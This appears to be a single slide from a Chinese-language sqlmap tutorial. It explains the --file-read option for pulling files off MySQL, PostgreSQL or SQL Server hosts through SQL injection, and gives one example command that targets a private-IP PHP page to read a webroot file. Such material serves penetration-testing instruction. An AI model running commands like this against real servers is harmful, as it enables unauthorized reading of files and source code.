

# 文件读写
从数据库服务器中读取文件
参数：--file-read
当数据库为MySQL，PostgreSQL或Microsoft SQL Server，并且当前用户有权限使用特定的函数。读取的文件可以是文本也可以是二进制文件。

sqlmap.py -u "http://192.168.2.3:81/about/show.php
?lang=cn&id=22" --file-read="C:\Inetpub\wwwroot\mysql-php\1.php"